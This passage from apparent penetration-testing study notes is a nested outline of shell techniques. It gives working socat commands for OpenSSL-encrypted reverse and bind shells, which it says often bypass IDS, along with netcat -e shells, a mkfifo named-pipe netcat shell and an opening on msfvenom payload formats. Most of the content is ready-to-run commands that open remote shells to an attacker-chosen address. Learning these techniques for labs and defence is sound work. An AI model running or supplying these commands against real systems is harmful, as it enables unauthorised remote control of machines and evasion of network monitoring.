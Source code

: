 			- Often able to bypass IDS units as a result
			- Wherever TCP was used to create basic Socat Shells above, replace it with OPENSSL
			- OpenSSL Cert Generation
				- On the Local Machine:
					- openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
						- That creates a 2048 bit RSA key with a matching cert file, with a lifespan of just about a year
						- When the command is run it will ask a series of information
						- You then get a:
							- shell.key and shell.crt file :) 
						- We must now merge these into a .pem file
					- cat shell.key shell.crt > shell.pem
			- Now, starting the LISTENURRRR
				- socat OPENSSL-LISTEN:"Port",cert=shell.pem,verify=0 -
				- (don't forget that - at the end of these commands, also for the ones above, those weren't typos)
				- verify=0 
					- Tells the connection to not bother trying to validate that our cert has been properly signed by a CA, a recognised authority
				- This cert HAS to be used on the device that is LISTENING
			- Connecting back:
				- socat OPENSSL:"LocalIP":"LocalPort",verify=0 EXEC:/bin/bash
			- BINDURR
				- FocusedMachine
					- socat OPENSSL-LISTEN:"Port",cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
				- Locale:
					- socat OPENSSL:"FocMachine":"FocMachinePort",verify=0
				- Observe that the cert must be used with the LISTENER, so it would need to be on whatever machine that you'd have listening
			- Examples:
				- socat OPENSSL-LISTEN:6969,cert=shell.pem,verify=0 FILE:'tty',raw,echo=0
						- BEAR IN MIND
							- the 'tty' is not surrounded by apostraphe's! ;) 
				- socat OPENSSL:127.0.0.1:6969,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
	- Common Shell Types:
		- For windows nc.exe /usr/share/windows-resources/binaries/nc.exe
		- netcat-traditional in Linux
			- For both of the above it's the
				- -e option
					- that allows to execute a process on connection
					- ie
						- nc -lvnp "port" -e /bin/bash
					- Will bind a shell as a result
			- Equally for a Reverse Shell
				- nc "ip" "port" -e /bin/shell
		- Important - most versions of Netcat are widely envisaged to be insecure. lel
		- Do this for a LISTENER:
			- mkfifo /tmp/f; nc -lvnp "Port" < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
				- This will create a named pipe at /tmp/f
				- Then it starts a Netcat LISTENER
				- connects the input of the listener to the output of the named pipe (above)
				- The output of the Netcat listener (the commands sent) gets piped directly into sh
				- sending the stderr output stream into stdout
					- 2>&1
				- Sending stdout itself into the input of the named pipe
		- SENDER:
			- mkfifo /tmp/f; nc "IP" "Port" < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
	- Msfvenom
		- Used to gen code for mainly Reverse and Bind Shells. 
		- Lower-level develoipments to generate hex shellcode when developing something like a Buffer Overflow exploit
			- It can generate payloads in different formats:
				- .exe
				- .aspx
				- .war
				- .py